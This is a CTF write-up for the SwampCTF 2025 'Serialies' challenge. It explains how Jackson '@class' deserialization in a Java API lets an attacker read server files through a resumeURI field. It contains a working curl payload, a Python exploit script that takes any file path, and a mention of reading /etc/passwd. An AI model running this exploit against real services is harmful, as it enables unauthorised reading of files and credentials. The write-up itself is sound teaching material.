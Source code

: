 ```yaml
---
title: "Serialies 🔎 – Java Deserialization & File Read (SwampCTF 2025)"
tags: [CTF, Web, Java, deserialization, file read, swampctf]
---
```


# Serialies 🔎

![web](https://img.shields.io/badge/category-Web-blue)
![Difficulty](https://img.shields.io/badge/difficulty-easy-blue)
![CTF](https://img.shields.io/badge/Event-SwampCTF%202025-purple)
![Java](https://img.shields.io/badge/Java-deserialization-red)

> "You either deserialize... or you get deserialized." — Sun Tzu (probably)

This challenge demonstrates a **classic insecure deserialization vulnerability** in a Java backend. 

A POST endpoint accepts Java objects via JSON, and unserializes them... without restrictions. 

This allows arbitrary file reads and even object injection.

## 📂 Table of Contents
- [Recon & Behavior 🚨](#recon--behavior-)
- [The Vulnerability 💥](#the-vulnerability-)
- [Crafting Our Payload ⚙️](#crafting-our-payload-%EF%B8%8F)
- [Automated Exploit 🚀](#automated-exploit-)
- [Conclusion 🧠](#conclusion-)

## Recon & Behavior 🚨

We're provided with a Java web application in a ZIP archive. After spinning it up or analyzing the challenge domain:

```
http://chals.swampctf.com:44444/api/person
```

This endpoint:
- Accepts POST requests with serialized Java objects in JSON format
- Deserializes them into custom classes: `Person`, `Job`, and `Address`
- Automatically calls `Job.init()` if `job` is present

📅 **Key clue** in the code:

In the PersonController, when we make a POST request:

![Init call in POST request](https://github.com/user-attachments/assets/27e64964-ceeb-4fd5-a0b1-15e7b96f0c1c)

Inside `init()` of Job class:

![Init vulnerable](https://github.com/user-attachments/assets/8205f77a-a5e8-4320-8175-6dce689066ff)

🚧 **Bingo**: we can trigger arbitrary file reads from the server by crafting an object with a `resumeURI` field.

## The Vulnerability 💥

### Insecure Deserialization + File Read
- Accepts serialized objects via JSON
- No class filtering or deserialization restrictions
- Automatically reads file content from a `resumeURI`

By POSTing this:
```
"resumeURI": "file:///flag.txt"
```
We trigger:
```
Files.readString(Paths.get("/flag.txt"))
```
and the result ends up in:
```
"resume": "<contents of flag.txt>"
```

The final objects are publicly visible at:
```
GET /api/person/<uuid>
```

## Crafting Our Payload ⚙️

We can directly craft our payload using `curl`. Example:
```
curl -X POST http://chals.swampctf.com:44444/api/person \
  -H "Content-Type: application/json" \
  -d '{
    "@class": "com.serialies.serialies.Person",
    "id": "13371337-1111-1111-1111-111111111111",
    "name": "notagain",
    "age": 1337,
    "address": {
      "@class": "com.serialies.serialies.Address",
      "street": "leet st",
      "city": "HaxCity",
      "state": "CTF",
      "zipCode": "1337"
    },
    "job": {
      "@class": "com.serialies.serialies.Job",
      "title": "h4x0r",
      "company": "Otaku Inc",
      "salary": 999999.0,
      "resume": "injected by notagain",
      "resumeURI": "file:///flag.txt"
    }
  }'
```

Then retrieve your object:
```
curl http://chals.swampctf.com:44444/api/person/13371337-1111-1111-1111-111111111111
```

And the flag appears in the `resume` field.

## Automated Exploit 🚀

```python
#!/usr/bin/env python3

import requests
import uuid
import argparse
import sys

def generate_payload(file_path, attacker_name="notagain"):
    """Create the JSON payload to inject a vulnerable object"""
    exploit_id = str(uuid.uuid4())
    payload = {
        "@class": "com.serialies.serialies.Person",
        "id": exploit_id,
        "name": attacker_name,
        "age": 1337,
        "address": {
            "@class": "com.serialies.serialies.Address",
            "street": "leet st",
            "city": "HaxCity",
            "state": "CTF",
            "zipCode": "1337"
        },
        "job": {
            "@class": "com.serialies.serialies.Job",
            "title": "h4x0r",
            "company": "Otaku Inc",
            "salary": 999999.0,
            "resume": f"{attacker_name} wuz here 😈",
            "resumeURI": f"file://{file_path}"
        }
    }
    return exploit_id, payload

def send_payload(base_url, payload):
    """Send a POST request with the JSON payload"""
    res = requests.post(base_url, json=payload)
    if res.ok:
        print("[+] Payload successfully sent")
    else:
        print("[-] Failed to send payload")
        sys.exit(1)

def fetch_flag(base_url, exploit_id):
    """Send a GET request to retrieve the object and extract file content"""
    url = f"{base_url}/{exploit_id}"
    res = requests.get(url)
    if not res.ok:
        print("[-] Failed to fetch response")
        sys.exit(1)

    try:
        data = res.json()
        resume = data["job"]["resume"]
        return resume
    except Exception as e:
        print("[-] Error while parsing response:", str(e))
        sys.exit(1)

def main():
    parser = argparse.ArgumentParser(description="SwampCTF - Serialies File Read Exploit")
    parser.add_argument("--url", required=True, help="Base URL (e.g. http://chals.swampctf.com)")
    parser.add_argument("--port", required=True, type=int, help="Target port")
    parser.add_argument("--file", required=True, help="Path to the file you want to read (e.g. /flag.txt)")
    args = parser.parse_args()

    base_url = f"{args.url}:{args.port}/api/person"
    exploit_id, payload = generate_payload(args.file)

    send_payload(base_url, payload)
    content = fetch_flag(base_url, exploit_id)
    
    print(f"[+] ID: {exploit_id}")
    print(f"[+] File Content: {content}")

if __name__ == "__main__":
    main()
```

### Output

![Flag displayed](https://github.com/user-attachments/assets/f8d459d2-7228-4a3f-8d94-3e6bdf348ef1)

```
[+] File Content: swampCTF{f1l3_r34d_4nd_d3s3r14l1z3_pwn4g3_x7q9z2r5v8}
```

On `http://chals.swampctf.com:44444/api/person/882ab274-c402-40a6-86b8-ca98b652225d`:

![Flag on website](https://github.com/user-attachments/assets/8b5ca719-5a9f-4559-a5a9-9ac71f21f8f5)

We can also read /etc/passwd too for example:

![/etc/passwd displayed](https://github.com/user-attachments/assets/1caf8c31-3399-4bcc-a4ef-2d43653a8300)

And on `http://chals.swampctf.com:44444/api/person/11d80c76-44af-4889-b5d5-78f88a5ab84a`:

![/etc/passwd on website](https://github.com/user-attachments/assets/a6195733-e265-45cc-9419-77fb35a79a9a)

## Conclusion 🧠

- A textbook example of **insecure deserialization** in Java
- Unsafe usage of `@class` types in Spring Boot with Jackson
- File read enabled via URI-based auto-loading

🔥 Bonus: no need for ysoserial, no bytecode injection — just good ol' JSON and understanding the logic.

🔙 [Back to SwampCTF 2025 Writeups](../../)
